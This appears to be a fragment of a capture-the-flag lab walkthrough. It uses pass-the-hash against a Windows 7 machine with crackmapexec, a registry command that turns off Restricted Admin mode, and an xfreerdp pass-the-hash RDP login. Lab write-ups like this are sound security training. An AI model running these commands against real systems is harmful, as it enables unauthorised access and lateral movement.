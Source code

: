 There's an account restriction

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.10.218 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'
SMB         10.10.10.218    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.10.218    445    JON-PC           [-] Jon-PC\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_RESTRICTION
```

`STATUS_ACCOUNT_RESTRICTION` typically means :
- NTLM is disabled (kerberos only)
- Restricted Admin Mode Is Enabled

The machine did not have kerberos enabled, 

Disable `RestrictedAdmin` mode

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

xFree RDP Pass The Hash

```bash
xfreerdp /u:Administrator /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:10.10.10.218 /cert:ignore /tls-seclevel:0
```